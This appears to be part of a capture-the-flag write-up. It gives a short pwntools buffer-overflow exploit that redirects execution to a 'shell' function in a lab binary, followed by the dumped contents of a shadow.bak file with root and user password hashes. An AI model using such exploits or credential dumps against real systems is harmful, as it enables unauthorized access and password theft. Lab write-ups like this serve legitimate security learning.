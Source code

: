 ### buffer overflow
`exploit.py`
```python
from pwn import *

e = ELF('./root')
p = process('./root')

offset = 0x50 - 0x24

payload = b'A'*offset
payload += p32(e.sym['shell'])

p.sendline(payload)

p.interactive()
```
* Running this code remotely with `python exploit.py` prints the `shadow.bak` file:
```
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
```

* The root hash is `$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.`
